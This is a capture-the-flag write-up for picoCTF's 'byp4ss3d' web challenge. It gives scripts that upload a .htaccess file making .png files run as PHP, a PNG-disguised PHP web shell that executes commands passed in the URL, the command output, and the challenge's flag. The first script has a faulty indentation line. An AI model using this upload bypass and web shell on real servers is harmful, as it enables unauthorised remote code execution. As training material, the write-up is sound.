 ```yaml
---
title: "byp4ss3d"
category: "Web Exploitation"
description: "A university's online registration portal asks students to upload their ID cards for verification. The developer put some filters in place to ensure only image files are uploaded but are they enough?"
---
```


## Information given

#### Description

A university's online registration portal asks students to upload their ID cards for verification. The developer put some filters in place to ensure only image files are uploaded but are they enough? Take a look at how the upload is implemented. Maybe there's a way to slip past the checks and interact with the server in ways you shouldn't.

Additional details will be available after launching your challenge instance.

#### Hints
Apache can be tricked into executing non-PHP files as PHP with a `.htaccess` file.
Try uploading more than just one file.

## Upload file

As you can see we are greeted with a website:

![[Screenshot 2025-10-01 at 20.24.02.png]]

We need to upload a file with a payload in order to get RCE (Remote Code Execution, this lets us run commands on the web server).

Remember that the hint stated that `.htaccess` needs to be uploaded in order to even upload another file which lets us execute commands on the web server.

To make the `.htaccess` file:

```python
#!/usr/bin/env python3

def create_htaccess():
htaccess_content = '''
AddType application/x-httpd-php .png
php_flag engine on
'''
	
	with open('.htaccess', 'w') as f:
		f.write(htaccess_content)
	print("[+] Created .htaccess file")

create_htaccess()
```

Then upload the file.

After uploading that we need to upload a png file with a payload letting us execute commands. To do this use this python script:

```python
#!/usr/bin/env python3

def create_php_shell_png():
    # Simple PHP web shell that will execute when accessed
    php_shell = b'''\x89PNG\r\n\x1a\n<?php
if(isset($_REQUEST['cmd'])) {
    header("Content-Type: text/plain");
    system($_REQUEST['cmd']);
    die();
}
echo "PNG Image";
?>
'''
    
    with open('shell.png', 'wb') as f:
        f.write(php_shell)
    
    print("[+] Created PHP shell as shell.png")

create_php_shell_png()
```

Then upload that and visit:

```
http://your-pico-info-target-whatever/images/shell.png?cmd=id
```

And you will see:

```
PNG  
**Warning**: Cannot modify header information - headers already sent by (output started at /var/www/html/images/shell.png:1) in **/var/www/html/images/shell.png** on line **5**  
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Now to read the flag:

```
http://amiable-citadel.picoctf.net:64056/images/shell.png?cmd=cat+../../flag.txt

---

OUTPUT:

PNG  
**Warning**: Cannot modify header information - headers already sent by (output started at /var/www/html/images/shell.png:1) in **/var/www/html/images/shell.png** on line **5**  
picoCTF{s3rv3r_byp4ss_77c49c68}
```

So the flag is: `picoCTF{s3rv3r_byp4ss_77c49c68}`.

---
